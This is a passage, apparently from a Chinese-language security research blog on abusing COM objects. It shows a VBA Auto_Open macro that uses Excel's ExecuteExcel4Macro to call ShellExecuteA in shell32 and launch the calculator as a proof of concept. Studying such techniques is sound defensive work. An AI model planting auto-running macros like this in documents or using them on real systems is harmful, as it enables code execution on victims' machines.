 ![ExecuteExcel4Macro](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/ExecuteExcel4Macro.png)

于是使用ExecuteExcel4Macro函数加载shell32.dll中的ShellExecuteA成功起calc：

```vbscript
Sub Auto_Open()
Set execl = GetObject("new:00020812-0000-0000-C000-000000000046")
execl.ExecuteExcel4Macro ("CALL(""shell32"", ""ShellExecuteA"", ""JJJCJJH"", -1, 0, ""CALC"", 0, 0, 5)")
End Sub
```

![ExecuteExcel4Macro-calc](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/COM%E5%AF%B9%E8%B1%A1%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E6%8C%96%E6%8E%98/ExecuteExcel4Macro-calc.png)
